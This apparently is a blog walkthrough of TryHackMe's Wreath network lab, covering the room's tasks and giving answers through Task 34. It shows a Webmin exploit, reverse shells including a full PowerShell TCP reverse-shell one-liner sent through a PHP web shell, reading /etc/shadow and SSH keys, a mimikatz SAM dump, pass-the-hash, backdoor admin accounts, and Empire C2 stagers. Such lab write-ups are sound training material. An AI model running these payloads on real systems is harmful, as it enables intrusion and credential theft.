 ```yaml
---
layout: post
title: "Wreath"
date: 2022-11-20
ctf: true
excerpt: "Walkthrough for Wreath on Try Hack Me"
tags: [Try Hack Me, Wreath, Network]
comments: false
---
```


# Wreath

[Wreath](https://tryhackme.com/room/wreath) is one of the "Networks" available on [TryHackMe](https://tryhackme.com). It consists of three machines, and the topics focused on are Pivoting, Working with the Empire C2 Framework, and Simple AV evasion techniques. There are a total of 46 tasks, so this is quite a lengthy challenge.

## Hints

<details><summary><strong>Room Hints</strong></summary>
<ul>
    <li>No hints are needed! Follow along and pay attention closely, and you will be guided through all the necessary information to attack this network!
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1 - Introduction

This task just goes over the rules of engagement and code of conduct. There is also a zip file to download from the Download Task Files link, which includes several Linux and Windows tools that will be used over the course of this challenge. Once downloaded, complete this first task.

![Wreath introduction](/assets/img/Wreath-1.png)


### Task 2 - Accessing the Network

This is another introductory task, and it walks you through downloading the ovpn file and connecting to the Wreath network, as it is separate from normal challenges. Read the documentation and follow the steps to learn how to connect to the network and how to start/stop and reset machines in the network. Complete the required steps and move on to the next task.

### Task 3 - Backstory

This just provides some backstory for this challenge. Once you've read the provided information, complete this step to move on to the next task.

### Task 4 - Brief

This provides details on the machines involved and how they are configured. After reading the information, mark the two steps as complete to move on to the next task.

### Task 5 - [Webserver] Enumeration 

This is the first task that is more hands on. There are several questions for this particular task, which are as follows:

![Wreath Task 5 questions](/assets/img/Wreath-2.png)

Let's start with the first one to identify how many ports of the first 15,000 are open. As stated in the beginning of this step, you will scan the initial IP listed on the Network screen, which should look similar to this:

![Wreath Network Initial Host](/assets/img/Wreath-3.png)


Let's run the following command to enumerate the first 15,000 TCP ports:

`nmap -A -oA wreath-network -p1-15000 <web server IP>`

![Wreath nmap](/assets/img/Wreath-4.png)

It appears that SSH(port 22), HTTP(port 80), HTTPS(port 443), and HTTP (10000) are open. This means the answer to the first question for this task is:

`4`

The 2nd question asks what operating system nmap thinks is running. By looking at the Apache server that is running on ports 80 and 443, it appears to be:

`centos`


Next, attempt to navigate to the http website with:

`http://<initial server IP>`

![Wreath http site](/assets/img/Wreath-5.png)

You should be redirected to a domain, which is the answer to this question:

`https://thomaswreath.thm`

The next question requires you to edit your hosts file. In Linux, this is located at `/etc/hosts`. To edit this, run the following:

`nano /etc/hosts`

And add the following entry:

`<initial ip address> thomaswreath.thm`

![Wreath nano /etc/hosts](/assets/img/Wreath-6.png)

Press **CTRL+S** followed by **CTRL+X** to save changes and close nano. This question can now be completed and you should be able to view the website properly.

The next question wants you to review the website and find Thomas's mobile phone number, which is located during the bottom of the page:

![Wreath website mobile phone number](/assets/img/Wreath-7.png)

`+447821548812`

The next question wants you to take a look at the high level port, which is 10000 and uncover the name and version of the application that is running on this port. Reviewing the nmap results above provides you with the following:

![Wreath nmap port 10000](/assets/img/Wreath-8.png)

`MiniServ 1.890 (Webmin httpd)`

Next, it wants to know the CVE for this version of this application. A Google search of:

`MiniServ 1.890 CVE`

returns the following, which answers this question:

![Wreath MiniServ CVE](/assets/img/Wreath-9.png)

`CVE-2019-15107`

The final question just lets you know you've found everything you need for this task, so you can complete it and move on to Task 6!

### Task 6 - [Webserver] Exploitation

This task walks you through downloading an exploit for this application and how to exploit it. The following questions are asked as part of this task:

![Wreath Task 6 Questions](/assets/img/Wreath-10.png)

The first task wants you to run the exploit found [here](https://github.com/MuirlandOracle/CVE-2019-15107). After downloading this file, follow the steps listed to ensure that the requirements are installed and that the file is made executable in order to run this exploit. Once this has been completed, run the exploit with:

`python3 CVE-2018-15107.py 10.200.84.200`

![Wreath Webmin Exploit](/assets/img/Wreath-11.png)

The next question asks you who webmin is running as. This is a pretty easy question, and can be solved by running:

`whoami`

which returns the result of:

`root`

![Wreath Webmin root shell](/assets/img/Wreath-12.png)

Next, let's get a reverse shell back to our attacker system. First, from your attacker box, you need to find out your tun0 IP, which can be done with:

`ip a`

![Wreath Attacker IP](/assets/img/Wreath-13.png)

Now, from the attacker IP, we need to use netcat to catch the reverse shell. Let's do that over port 25 using the following command:

`nc -nvlp 25`

Back on the Webmin exploit terminal window, run:

`shell`

and then enter your IP address for the next prompt followed by the port you used.

![Wreath Webmin reverse shell](/assets/img/Wreath-14.png)

Next, back on the terminal window where you used netcat, you should have a root shell which completes this question. Next, let's stabilize the reverse shell by running:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

Next, press:

`CTRL+Z`

to background the reverse shell, and then run:

`stty raw -echo; fg`

To bring it back to the foreground. This will turn off the echo of commands you run.

![Wreath reverse shell TTY config](/assets/img/Wreath-15.png)

This will complete the stabilization question. The next question wants you to find the root user's hash. This can be found by running:

`cat /etc/shadow`

![Wreath shadow file](/assets/img/Wreath-16.png)

This provides the answer to this question. Typically, you would attempt to crack this hash, but you are told this is not an easily crackable password. Let's see if we can find another way to establish persistence. After some review, SSH is setup for the root user, and you can find the root user private key at:

`/root/.ssh/id_rsa`

This is the answer to this question. Save this file to your attacker machine and run:

`chmod 600 <key name>`

in order to use it later. 

The last question for this task has you acknowledge that you have completed the above, so you can quickly close this out to move to Task 7.

### Task 7 [Pivoting] What is Pivoting?

This task gives you a brief summary of what pivoting is. The only task here is to acknowledge that you've read the summary. Go ahead and complete this question to move on to Task 8.

### Task 8 [Pivoting] High-level Overview

This goes a bit more in depth on the topic from the previous task, and has two questions to answer.

![Wreath Task 8 Questions](/assets/img/Wreath-17.png)

The first question asks you which pivoting method can send information inside another protocol. The answer to this is:

`tunnelling`

The 2nd question, while not needed for this challenge, asks you to find the Meterpreter module for port forwarding. The answer to this question is:

`portfwd`

### Task 9 [Pivoting] Enumeration

This task goes over some commands that can be ran to find useful information on target systems once you've established a foothold. In particular, it provides information on how to find DNS entries on Windows and Linux systems. There is also information on how to do a ping sweep from Linux to hosts in a particular /24 network. This information provides answers to the questions below:

![Wreath Task 9 Questions](/assets/img/Wreath-18.png)

The first question asks for the path/file for DNS entries in Linux, which is:

`/etc/resolv.conf`

The second question asks for the path/file for DNS entries in Windows, which is:

`c:\Windows\System32\drivers\etc\hosts`

The third question asks on how to perform a manual ping sweep with bash on a 172.160.0.x/24 network, which would be:

`for i in {1..255} do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done`

This completes the questions for Task 9. Let's move on to Task 10.

### Task 10 [Pivoting] Proxychains & FoxyProxy

This task walks you through configuring Proxychains and FoxyProxy, which leads to the following questions:

![Wreath Task 10 Questions](/assets/img/Wreath-19.png)

The first question asks how you would update the proxychains config file to redirect through a socks4 proxy on 127.0.0.1:4242. The answer to this question is:

`socks4 127.0.0.1 4242`

The second question asks you how you would use proxychains to telnet through a proxy to 172.16.0.100:23. The answer to this question is:

`proxychains telnet 172.16.0.100 23`

The third question lets you know you've discovered a web app running on a target on an  isolated network, and wants to know what would be better for proxying, Proxychains (PC) or FoxyProxy (FP). In this case, it would be:

`FP`

### Task 11 [Pivoting] SSH Tunneling / Port Forwarding

This task walks you through how to setup local and remote port forwarding using SSH between two systems. After reading the information provided, several questions are asked for this particular task as shown below:

![Wreath Task 11 Questions](/assets/img/Wreath-20.png)

The first question asks if you're connecting to an SSH server from your attacking machine to create a port forward, whether this is a local or remote port forward. The answer to this is local (L) as you're initiating the connection from the attacker machine:

`L`

The second question asks which switch combination can be used to background an SSH port forward or tunnel. The answer to this is:

`-fN`

Which tells ssh to background the shell immediately and to not execute commands (instead, just keep the SSH connection open in the background).

The third question asks whether it's a good idea to enter our own password on a remote machine to setup a reverse proxy. The answer to this is:

`Nay`

The fourth question asks how you would create a throwaway pair of SSH keys for a reverse connection. The command to use would be:

`ssh-keygen`

The fifth question starts to put the previous questions together, and asks you the command to setup a reverse port forward from a remote machine to your local machine. The answer based on the information provided would be:

`ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa -fN`

The sixth question asks you to setup a forward proxy on port 8000 to user@target.thm and then background the shell. This is done with:

`ssh -L 8000 user@target.thm -fN`

The final question asks how you would port forward a web server (port 80) that's only accessible to itself to your attacking machine over port 8000. This would be accomplished with:

`ssh -R 8000:127.0.0.1:80 user@172.16.0.50 -fN`

This completes Task 11, let's move on to the next Task.

### Task 12 [Pivoting] plink.exe

plink.exe is a windows command line version of PuTTY, which can be used to establish a reverse connection to an attacker box with:

`cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

There is only one question for this task as shown below:

![Wreath Task 12 Questions](/assets/img/Wreath-21.png)

The answer to this question is:

`puttygen`

### Task 13 [Pivoting] Socat

This task goes over what socat is and how it can be used to create fully stable shells. Near the bottom of this task are four questions, which are as follows:

![Wreath Task 13 Questions](/assets/img/Wreath-22.png)

The first qusetion asks which socat option lets you reuse the same listening port for more than one connection. That answer is:

`reuseaddr`

The next question asks how you would use a static socat binary to relay a reverse shell to port 443 on your attacking machine with an IP address of 172.16.0.200. The server listener would be TCP port 8000. This would be accomplished with:

`./socat tcp-l:8000 tcp:172.16.0.200:443`

The third question asks how you would perform port forwarding using the easy method with socat. In this example, it would be done with:

`./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &`

The final question asks how you would creat an encrypted port forward using OpenSSL. This would require several steps as shown below. First, create the certificate with:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

Next, combine the .key and .crt files into a .pem file with:

`cat shell.key shell.crt > shell.pem`

Next, open up the reverse shell listener with:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

Finally, to connect to the reverse shell, use:

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

### Task 14 [Pivoting] Chisel

This task provides several ways to create reverse connections with chisel. There are four questions for this task.

![Wreath Task 14 Questions](/assets/img/Wreath-23.png)

The first question asks how you would start a chisel server for a reverse connection using port 4242. This would be accomplished with:

`./chisel server -p 4242 --reverse`

The second questions wants to know the command to use to connect to this server from a compromised host with a SOCKS proxy, assuming your IP is 172.16.0.200. This would be (we assume port 4242 based on the question above):

`./chisel client 172.16.0.200:4242 R:socks &`

The third question asks how to forward 172.16.0.100:3306 to your attacker machine 172.16.0.200 on port 33060 on port 33060 while listening on port 1337 and backgrounding the process. This would be done with the following format:

`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

Which results in the following answer:

`./chisel client 172.16.0.200:1337 R:33060:172.16.0.100:3306 &`

The fourth question for this task asks how to create a local port forward opening port 8000 locally and linking to 172.16.0.10:80 when you have a chisel server running on 172.16.0.5 on port 4444. This would be accomplished with:

`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

Which would result in the following answer:

`./chisel client 172.16.0.5:4444 8000:172.16.0.10:80`

### Task 15 [Pivoting] sshuttle

sshuttle is yet another tool that can be used to create an SSH connection that acts as a tunnelled proxy. It essentially simulates a VPN. This task has three questions to answer as shown below:

![Wreath Task 15 Questions](/assets/img/Wreath-24.png)

The first qustion asks how you would use sshuttle to connect to 172.16.20.7 with a username of pwned and a subnet of 172.16.0.0/16. This would be accomplished with:

`sshuttle -r pwned@172.16.20.7 172.16.0.0/16`

The second question asks what switch/argument you would use to tell sshuttle to use a keyfile called priv_key located in the current directory. This would be:

`--ssh-cmd "ssh -i priv_key"`

The final command asks what switch and argument you would use if you are receiving a Broken Pipe error when attempting to connect to 172.16.0.100. This would be:

`-x 172.16.0.100`

### Task 16 [Pivoting] Conclusion

This just provides a summary of the tools covered in Tasks 7-15, and just wants you to mark the one question as complete that does not require an answer once you have reviewed it.

### Task 17 [Git Server] Enumeration

This task is where the previous tasks are actually put into practice. There are six questions associated with this task, which are as follows:

![Wreath Task 17 Questions](/assets/img/Wreath-25.png)

For the first question, we are requested to discover how many hosts are active on the network. To do so, we should first connect to the initial server we ended up with the root ssh key for in Task 6, and use that to connect. As a refresher, this would be done with:

`ssh -i id_rsa root@10.200.84.200`

Next, let's setup a python server to copy over the nmap static binary to this system. In another terminal tab, navigate to a directory on your attacker system where you have this binary stored, and run the following:

`python3 -m http.server`

Back on the target machine where you connected as root, run the following commands to navigate to the /tmp directory and copy the nmap binary over (which has had my username added to it per the directions in the course).

```
cd /tmp
curl <attacker machine ip>:8000/nmap-<username> -o /tmp/nmap-<username>
chmod +x /tmp/nmap-<username>
```

![Wreath copy nmap binary](/assets/img/Wreath-26.png)

Next, let's run nmap on this network with:

`./nmap-<username> -sn 10.200.84.0/24`

This provides the following results. 

![Wreath copy nmap ping sweep](/assets/img/Wreath-27.png)

We would exclude the .1 and .250 IP addresses per the instructions from this challenge, along with the .200 host we're connected to, so the answer to the first question would be:

`2`

The second question asks for the last octet of the other two hosts, which can be found in the scan that was just performed. The answer to this is:

`100,150`

The third question asks you to perform a scan on the hosts discovered during the prior two qusetions. Let's run the following nmap scan on these two hosts:

`./nmap-<username> 10.200.84.100,150 -p-`

This returns the following results:

![Wreath nmap host scan](/assets/img/Wreath-28.png)

This lets us know that all the ports scanned that were **not** filtered were on the following host, which is the answer to this question:

`150`

The fourth question asks for the 3 ports uncovered on the other host in ascending order, which are as follows:

`80,3389,5985`

The fifth question asks you to assume that the services listed are correct, and guess which one will likely have some sort of vulnerability. Based on the services listed, the following is most likely the service with a vulnerability:

`http`

The sixth question requires no answer, and just wants you to know that once you have the above information, you can use some of the previously discussed tools/techniques to attempt to access them.

### Task 18 [Git Server] Pivoting

This task requires you to port forward the web server on the .150 host so you can visit it from your attacker machine. Per the instructions, sshuttle is the recommended approach. There are four questions for this task as shown below:

![Wreath Task 18 Questions](/assets/img/Wreath-29.png)

Since we have the id_rsa key for the root user of the .200 host, let's start by running the following from our attacker machine to connect:

`sshuttle -r root@10.200.84.200 --ssh-cmd "ssh -i id_rsa" 10.200.84.0/24 -x 10.200.84.200`

![Wreath sshuttle connection Git Server](/assets/img/Wreath-30.png)

Next, visit http://10.x.x.150 (x.x will vary based on which network you are on) from your attacker machine, you should see an error page similar to the following:

![Wreath sshuttle Django error](/assets/img/Wreath-31.png)

This error message lets you know the answer to the first question asking what service is running by reviewing the error message, which is:

`gitstack`

Let's navigate to http://10.x.x.150/gitstack, and you are provided with default credentials.

![Wreath gitstack login page](/assets/img/Wreath-32.png)

Test these out to answer the second question. The answer is:

`Nay`

since these do not work. For the third question, you just need to acknowledge that you've ran:

`searchsploit gitstack`

as that information is used to answer the forth question for this task.

After running searchsploit gitstack, you will see the following.

![Wreath searchsploit exploit list](/assets/img/Wreath-33.png)

The EDB number is the number listed before .py in the Path variable. In this case, this is:

`43777`

### Task 19 [Git Server] Code Review

This task consists of 4 questions, as shown below:

![Wreath Task 19 Questions pt 1](/assets/img/Wreath-34.png)
![Wreath Task 19 Questions pt 2](/assets/img/Wreath-35.png)

As written in the provided directions, let's copy this exploit into our current folder on our attacker machine with:

`searchsploit -m 43777`

Next, let's open this exploit in a text editor with:

`mousepad 43777.py`

![Wreath mousepad 43777.py](/assets/img/Wreath-36.png)

This should allow us to answer the first three questions for this task. The first question asks for the date this was written, which is:

`18.01.2018`

The second question asks you what language this was written in, Python 2 or 3. Since there are no parentheses around the print commands, that likely indicates this is python2. This lets us answer the 2nd question, which is:

`python2`

The next questions asks you to add a shebang at the top of this exploit to indicate which programming language to execute it with. This would be done with:

`#!/usr/bin/python2`

Next, we will need to modify the ip of the script on line 23 (if you inserted the shebang at the top). Replace the 192.168.1.102 IP with the IP of the .150 box.

![Wreath modify 43777.py](/assets/img/Wreath-37.png)

Leave the command to run alone on line 26 for now. The last question wants you to provide the name of the cookie in the POST request on line 74, which is:

`csrftoken`

Save and close the exploit.

### Task 20 [Git Server] Exploitation

This task has seven questions in total.

![Wreath Task 20 Questions pt 1](/assets/img/Wreath-38.png)
![Wreath Task 20 Questions pt 2](/assets/img/Wreath-39.png)
![Wreath Task 20 Questions pt 3](/assets/img/Wreath-40.png)
![Wreath Task 20 Questions pt 4](/assets/img/Wreath-41.png)

Let's start by testing the exploit we created in Task 19 to see if it works. This can be ran by running.

![Wreath test exploit](/assets/img/Wreath-42.png)

As you can see in the screenshot, this worked successfully and lets us know that the web server is running as system. This also lets us know this is a Windows computer.

`./43777.py`

Now that we know this is working, let's review the code once again. On line 94, we can see the name of the exploit that is being uploaded. Let's update this to exploit-<username.php>:

![Wreath test exploit](/assets/img/Wreath-43.png)

Now, let's rerun this test exploit to upload this web shell. This would answer the first question.

A review of the code lets us know that this is using a POST command with the "a" parameter to run our commands. Once we've ran the exploit, let's reuse the uploaded webshell instead of continuing to run the exploit. This can be done with the following to run any command we would like:

`curl -X POST http://<150 machine IP>/web/exploit-<username>.php -d "a=<command to run>`

Let's test this out with the hostname command, which would be the answer to the second question.

![Wreath 150 hostname](/assets/img/Wreath-44.png)

This provides us with the answer of:

`git-serv`

The third question wants us to figure out the OS on this target. We already know it's windows, but to confirm, run `systeminfo`.

![Wreath 150 systeminfo](/assets/img/Wreath-45.png)

This provides us with the answer to this question:

`Windows`

The fourth question we had already answered with our test exploit. It is running as the following user:

`nt authority\system`

The fifth question wants you to try to ping your attacker machine and to see if it was successful or not. This could be done with:

`curl -X POST http://<150 machine IP>/web/exploit-<username>.php -d "a=ping -n 3 <attacking machine IP>`

![Wreath 150 ping](/assets/img/Wreath-46.png)

It appears that none of the pings made it back, so the answer to this question is:

`0`

In order to catch the shell, you will need to either setup a shell to be caught on the 200 host, or a relay to relay it back to the attacker machine. Let's try the second option, as that is the entire purpose of this challenge. First, choose a port you would like to use. In this case, we're going to use 8888. We would need to follow the provided instructions and run:

`firewall-cmd --zone=public --add-port 8888/tcp`

on the .200 machine we initially connected to, as CentOS by default is pretty restrictive with what it allows.

![Wreath modify 200 firewall](/assets/img/Wreath-47.png)

Next, let's run a python http server on our attacker machine, like we did earlier, with:

`python3 -m http.server`

Next, let's navigate to the /tmp folder and download the socat binary to this system so we can set it up as a relay.

```
cd /tmp
curl <attacker machine ip>:8000/socat-<username> -o /tmp/socat-<username>
chmod +x /tmp/socat-<username>

```

![Wreath copy socat to 200](/assets/img/Wreath-48.png)

Next, on the .200 host, let's run the following:

`./socat-<username> tcp-l:8888 tcp:<attacker ip>:8888 &`

![Wreath socat port forwarding 150 to attacker](/assets/img/Wreath-49.png)

This takes care of the sixth question for this task. Let's setup a netcat listener on our attacker machine with:

`nc -nvlp 8888`

Now that this has been setup, let's use a PowerShell reverse shell along with curl to get a reverse shell to the .150 host on our attacker machine. Let's use the following PowerShell script:

`powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('<200 machine ip>',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

We will need to URL encode this as well, as we will be using curl to establish this connection. This can be done with an [online URL encoder](https://www.urlencoder.org/).

![Wreath url encode rev shell](/assets/img/Wreath-50.png)

Next, let's run the following curl command to establish our reverse shell to the .200 host:

`curl -X POST http://<150 ip address>/web/exploit-<username>.php -d "a=<url encoded powershell reverse shell>"`

![Wreath curl rev shell 200 machine](/assets/img/Wreath-51.png)

Back on our netcat listener, we should have caught a reverse shell:

![Wreath rev shell 200 machine](/assets/img/Wreath-52.png)

At this point, we have completed the final question for this task!

### Task 21 [Git Server] Stablisation & Post Exploitation

This task has a few steps that help you gain better stability to the .200 machine. This is done by creating a new user account, making it an administrator, and adding it to the Remote Management Users Group. We can then access it via RDP from our attacker machine. This task has a total of six questions as shown below.

![Wreath Task 21 Questions pt 1](/assets/img/Wreath-53.png)
![Wreath Task 21 Questions pt 2](/assets/img/Wreath-54.png)

First, let's add a new user with administrative and RDP privileges with the following to this new machine:

```
net user <username> <password> /add

net localgroup Administrators <username> /add
net localgroup "Remote Management Users" <username> /add
```

![Wreath create admin user 150 machine](/assets/img/Wreath-55.png)

This completes the first question. To finish the second question, let's test our connectivity with evil-winrm:

`evil-winrm -u <username> -p <password> -i <150 machine ip>`

![Wreath winrm admin user 150 machine](/assets/img/Wreath-56.png)

For the third question, let's connect with rdp from our attacker machine, using the following command (this will share a resources folder on our attacker machine that will be used to run some tools in a future step):

`xfreedrp /v:<150 machine IP> /u:<username> /p:<password> +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`

![Wreath rdp admin user 150 machine](/assets/img/Wreath-57.png)

Next, open a command prompt as administrator and run mimikatz from the shared drive you setup with:

`\\tsclient\share\mimikatz\x74\mimikatz.exe`

Next, run:

```
privilege::debug
token::elevate
```

![Wreath mimikatz pt1 150 machine](/assets/img/Wreath-58.png)

This will elevate your privileges with mimkatz, which then lets you dump the local SAM database with:

`lsadump::sam`

This will provide a lot of information, but you're specifically looking for the NTLM hash for the Administrator account:

![Wreath mimikatz pt2 150 machine](/assets/img/Wreath-59.png)

This hash is the answer for the third question. The fourth question asks you for the NTLM hash for "Thomas", which is also found in this dump:

![Wreath mimikatz pt3 150 machine](/assets/img/Wreath-60.png)

Let's attempt to crack these two hashes. This could be done locally with Hashcat or John, or you could also try sites like [Crackstation](https://crackstation.net). While it did not crack the admin password, it did crack Thomas's, which is the answer to the fifth question:

![Wreath crack Thomas password 150 machine](/assets/img/Wreath-61.png)

The sixth question wants you to connect via win-rm with the administrator hash. This can be done with:

`evil-winrm -u Administrator -H <hash> -i <150 machine ip>`

![Wreath evil-winrm administrator 150 machine](/assets/img/Wreath-62.png)

This answers the final question for this Task.

### Task 22 [Command and Control] Introduction

This gives a brief overview of what C2 networks are and provides a high level introduction to Empire. Once you've read through the information, mark the single question for this task as complete.

### Task 23 [Command and Control] Empire: Installation

Let's install Starkiller (if not already installed) on our attacker machine (a GUI based version of Empire) with:

`sudo apt install starkiller`

Next, let's run:

`sudo powershell-empire server`

![Wreath start empire server](/assets/img/Wreath-63.png)

In another new terminal window, run:

`starkiller`

and login with the default credentials (empireadmin/password123). This completes the only question for this task.

### Task 24 [Command and Control] Empire: Overview

This task provides a general overview of the components of Empire. Read through the information and complete the first question. The second question asks you if you can get an agent directly from the 150 (Git Server). The answer to this is:

`Nay`

We will get into more detail about how to setup this connection in future tasks.

### Task 25 [Command and Control] Empire: Listeners

This task walks you through how to setup a listener both in the CLI in Empire and with Starkiller. Below are the screenshots for setting up our listener in Starkiller.

First, click on the **CREATE +** button in the upper right hand corner. In the type drop down, select http. All the options can be left along except for the host IP, which defaults to your eth0 device. This would need to be changed to the tun0 attacker IP. We would also need to select a port that is not in use. In this instance, I selected 9999. Here is a screenshot of what the configuration looks like:

![Wreath starkiller setup listener](/assets/img/Wreath-64.png)

Click on **SUBMIT** in the upper right hand corner to create this listener. You should see a listener similar to the one shown below.

![Wreath starkiller listener](/assets/img/Wreath-65.png)

At this point, you can complete the question for this task, and move on.

### Task 26 [Command and Control] Empire: Stagers

This task consists of 2 questions, which we will answer by following the steps below. A stager is the payload that will be used to connect back to the listener from a target machine. To generate it from Starkiller, click on Stagers on the left hand menu (2nd option from the top) and then click on **CREATE +**.

As the directions state, choose multi/bash as the Type and select the listener you created in the previous task.

![Wreath starkiller setup stager](/assets/img/Wreath-66.png)

Once complete, click on **SUBMIT**. Next, click on the 3 dots under Actions and select **Copy to Clipboard**

![Wreath starkiller copy stager](/assets/img/Wreath-67.png)

Paste the stager into a text editor and save it as:

`stager-<username>.sh`

This completes the first question. The second question wants you to decode the payload and try to figure out what it's doing. Copy everything in parentheses (besides the single quotes) after the base64.b64decode portion of the script. To answer the second question, run:

`echo "<base 64 encoded payload>"|base64 -d`

From here, you can see that it's making an HTTP request to your listener.

![Wreath starkiller decode stager](/assets/img/Wreath-68.png)

Complete the question and move on to the next task.

### Task 27 [Command and Control] Empire: Agents

There are two questions for this task:

![Wreath Task 27 Questions](/assets/img/Wreath-69.png)

First, let's copy the stager over to the .200 machine. We should have an SSH connection from earlier as root, so let's navigate to the /tmp directory and run:

`nano stager-<username>.sh`

Next, copy and paste the stager into nano and then press:

`CTRL+S` followed by `CTRL+X` to save and exit nano. Let's make the script executable with:

`chmod +x stager-<username>.sh`

![Wreath starkiller 200 stager](/assets/img/Wreath-70.png)

Next, run the script and then return to Starkiller and click on the **Agents** option (3rd on left hand menu). You should see an agent that has checked in!

![Wreath starkiller 200 agent](/assets/img/Wreath-71.png)
 
To answer the first question, we would need to review the instructions provided since we only used Starkiller and did not setup Empire CLI. The command to run whoami from the Empire CLI listener would be:

`shell whoami`

While not required, to do this in Starkiller, click on the Agent name and then enter the command in the Shell Command window and click on **RUN** 

![Wreath starkiller 200 agent run whoami](/assets/img/Wreath-72.png)

In a few moments, click on **TASKS** and then you will see the command you ran, which can be expanded to view the result.

![Wreath starkiller 200 agent whoami result](/assets/img/Wreath-73.png)


### Task 28 [Command and Control] Empire: Hop Listeners

While the previous steps let us setup an agent on the 200 server, we would like to be able to reach the .150 server. Let's setup a Hop listener to do that. Following the steps below will get this setup, which answers the only question for this Task. First, click on **CREATE +** on the Listeners page in Starkiller and select **http_hop** as the type. For the host, enter the 200 host IP, and select a high level port. Under RedirectListener, enter the previous http listener name you created in Starkiller. Once completed, click on **SUBMIT**.

![Wreath starkiller http_hop listener](/assets/img/Wreath-74.png)

### Task 29 [Command and Control] Git Server

First, let's create a new stager for the http_hop listener. This is similar to what was done in step 26, but we wil choose multi/launcher as the type. Select the http_hop listener in the Listener option. Once done, click on **SUBMIT**.

![Wreath starkiller http_hop stager](/assets/img/Wreath-75.png)

Under Actions for this agent, select **Copy to Clipboard**. Paste this into a text editor and set it aside for now. Next, when we created the http_hop agent, it setup a listener folder in /tmp/http_hop. Let's zip this directory, as we will need to copy this over to the .200 machine to route traffic from the .150 machine to our attacker machine through the .200 machine. Run the following commands:

```
cd /tmp/http_hop
zip -r hop.zip *
```

![Wreath starkiller hop.zip](/assets/img/Wreath-76.png)

Next, copy this file over to the .200 machine using the same method that was utilized earlier to copy over socat in Task 17. Once copied over, unzip this in the /tmp/\<username> directory on the .200 machine.

Next, since we know that PHP is installed (as that's what's running the current web server), let's use this to our advantage to host a webserver on the port we set in the hop listener we created in the previous task. Let's run the following two commands to ensure the port is open and start the PHP server:

```
firewall-cmd --zone=public --add-port 54321/tcp
php -S 0.0.0.0:54321 &>/dev/null &

```

![Wreath setup hop server 200 machine](/assets/img/Wreath-77.png)

Next, let's URL encode the stager we pasted into a text editor earlier, and use curl on our web shell exploit from Task 20 to run the command. Here's the layout for this command as a refresher:

`curl -X POST http://<150 machine IP>/web/exploit-<username>.php -d "a=<command to run>`

![Wreath run stager 200 machine](/assets/img/Wreath-78.png)

![Wreath http_hop agent GIT-SERV 150 machine](/assets/img/Wreath-79.png)

This completes this task, as we now have an Agent on the GIT-SERV(.150 machine)!

### Task 30 [Command and Control] Empire: Modules

Now that we have an established connection with the .150 machine, let's use Modules to obtain some information. Follow the steps below to complete the one question for this Task. 

Click on Modules on the left hand menu (4th option). In Search in the upper right hand corner, type in sherlock.

![Wreath starkiller sherlock module](/assets/img/Wreath-80.png)

Click on the name of the module so we can choose which Agent to run it on. Once selected, click on **SUBMIT**

![Wreath starkiller run sherlock module](/assets/img/Wreath-81.png)

On the left hand menu, select Reporting (6th option) and expand the task that was just ran. This should provide a list of potential exploits that can be ran on the .150 machine.

![Wreath starkiller sherlock results](/assets/img/Wreath-82.png)

This completes this task!

### Task 31 [Command and Control] Empire: Interactive Shell

This task also has one question which requires no answer. This task shows you how to get to the interactive shell in both Empire and Starkiller. In Starkiller, this is accessed by clicking on the Agent name. In the **Shell Command** box, enter the command and click on **RUN**. After a few moments, click on the **<** arrow in right below the trash can icon to pop out the history of commands ran with the interactive shell:

![Wreath starkiller Agent interactive shell](/assets/img/Wreath-83.png)

This completes this task!

### Task 32 [Command and Control] Conclusion

This section has two tasks, read through the Conclusion and complete both tasks, as we will not be exploring additional C2 Frameworks at this time.

### Task 33 [Personal PC] Enumeration

This task consists of one question:

![Wreath Task 33 Question](/assets/img/Wreath-84.png)

Let's follow the steps mentioned in this task to connect to the .150 host with evil-winrm and share a scripts directory containing Powershell enumeration scripts with the .150 machine from our attacker host. This is done by running:

`evil-winrm -u Administrator -H <hash from Task 21> -i <150 machine IP> -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/`


![Wreath evil-winrm administrator .150 machine](/assets/img/Wreath-85.png)

Once connected, run the following to import the PowerShell module, view the help file for the module, and then run it against the 100 host:

```
Invoke-Portscan.ps1
Get-Help Invoke-Portscan
Invoke-Portscan -Hosts 10.200.84.100 -TopPorts 50
```

This gives you the following information.

![Wreath evil-winrm Invoke-Portscan .150 machine](/assets/img/Wreath-86.png)

 Under openPorts, you will see the list of ports open, which answers this question.
 
### Task 34 [Personal PC] Pivoting
 
Since we know the .150 machine can access the .100 machine over ports 80 (likely a web server) and 3389 (likely RDP), let's setup a pivot to allow us to connect to the .150 machine directly from our attacker machine.

This task has the following questions:

![Wreath Task 34 Questions](/assets/img/Wreath-87.png)

First, let's open up the port we used for Empire from the Adminstrator evil-winrm sessions with:

`netsh advfirewall add rule name="Chisel-<username> dir=in action=allow protocol=tcp localport=<empire agent port number>`

